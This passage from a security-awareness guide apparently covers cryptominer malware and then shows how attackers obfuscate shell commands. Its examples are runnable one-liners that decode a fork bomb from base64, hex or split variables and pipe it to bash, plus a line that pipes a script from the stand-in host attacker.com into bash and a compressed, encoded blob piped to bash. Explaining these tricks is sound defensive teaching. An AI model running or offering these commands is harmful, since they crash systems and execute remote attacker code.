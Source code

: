 **Why they're dangerous:**
- Consumes CPU resources for cryptocurrency mining
- Increases electricity costs
- Degrades system performance
- Often bundled with other malware

**Defense:**
- Monitor CPU usage patterns
- Check for unknown processes
- Network monitoring for mining pool connections
- Block mining pool domains at firewall

---

## Obfuscation Techniques

Attackers disguise malicious commands so victims can't easily identify them. Here are common obfuscation methods:

### 1. Base64 Encoding
```bash
# Hidden fork bomb
echo "OigpeyA6fDomIH07Ogo=" | base64 -d | bash

# What it decodes to: :(){ :|:& };:
```

### 2. Hex Encoding
```bash
# Hidden malicious command
echo -e "\x3a\x28\x29\x7b\x20\x3a\x7c\x3a\x26\x20\x7d\x3b\x3a" | bash
```

### 3. Variable Obfuscation
```bash
# Breaks up the command into variables
a=":";b="(";c=")";d="{";e=" ";f=":";g="|";h="&";i="}";j=";"
$a$b$c$d$e$f$g$f$h$e$i$j$a
```

### 4. URL Encoding in Downloaded Scripts
```bash
# Script from URL looks innocent but contains encoded payloads
curl -s http://attacker.com/innocent-looking-script.sh | bash

# The script might contain:
# eval "$(echo %3a%28%29%7b%20%3a%7c%3a%26%20%7d%3b%3a | sed 's/%/\\x/g')"
```

### 5. Compression + Encoding
```bash
# Compressed and base64 encoded
echo "H4sIAAAAAAAAA0vOz0lVyE0sSk7NTU4vSk7VTU5MyclPV0jOzytJzStRBADUxc5xGgAAAA==" | base64 -d | gunzip | bash
```
